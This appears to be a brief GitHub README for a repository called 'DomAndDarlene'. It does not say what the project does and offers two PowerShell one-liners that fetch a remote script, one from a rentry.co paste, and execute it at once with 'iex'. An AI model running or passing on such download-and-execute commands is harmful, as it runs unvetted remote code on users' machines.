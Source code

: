 # DomAndDarlene
Run Away with me

## Powershell:
`iex (iwr raw.githubusercontent.com/RavenCraftInitaitives/DomAndDarlene/main/test1.ps1).Content`

Or,

`iex (iwr rentry.co/HotCarla/raw).content`

## Bugs:

powershell doesn't automatically exit after completion (All the commands are never completed). Maybe it's stuck at wait... For now, press Ctrl + C to exit powershell.
